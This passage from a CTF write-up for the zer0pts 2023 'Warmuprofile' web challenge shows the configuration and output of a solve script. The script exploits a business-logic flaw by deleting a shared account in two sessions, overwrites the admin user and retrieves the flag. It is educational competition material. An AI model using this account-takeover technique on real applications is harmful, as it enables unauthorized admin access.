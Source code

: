 **Finally, let's spawn the instance's container, and get the real flag!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/zer0pts-CTF-2023/images/Pasted%20image%2020230716135802.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/zer0pts-CTF-2023/images/Pasted%20image%2020230716135807.png)

- Change the `isLocal`, `basicAuthUsername`, `basicAuthPassword`, `baseUrl` variable in the Python script:

```python
if __name__ == '__main__':
    isLocal = False
    basicAuthUsername = 'oIYaJLEmXCFMdDAv'
    basicAuthPassword = 'DlfzqYvBZrWJHERo'
    baseUrl = 'http://others.2023.zer0pts.com:64177'
```

```shell
┌[siunam♥Mercury]-(~/ctf/zer0pts-CTF-2023/web/Warmuprofile)-[2023.07.16|13:58:49(HKT)]
└> python3 solve.py
[*] Registering new account "foo" in session 1
[*] Logging in to new account "foo" in session 1
[*] Logging in to new account "foo" in session 2
[*] Deleting new account "foo" in session 1
[*] Deleting new account "foo" in session 2
[*] Overwriting old admin user in session 1
[*] Getting the flag in session 1
[+] Flag: zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}
```

Nice!

- **Flag: `zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}`**

## Conclusion

What we've learned:

1. Exploiting Business Logic Vulnerability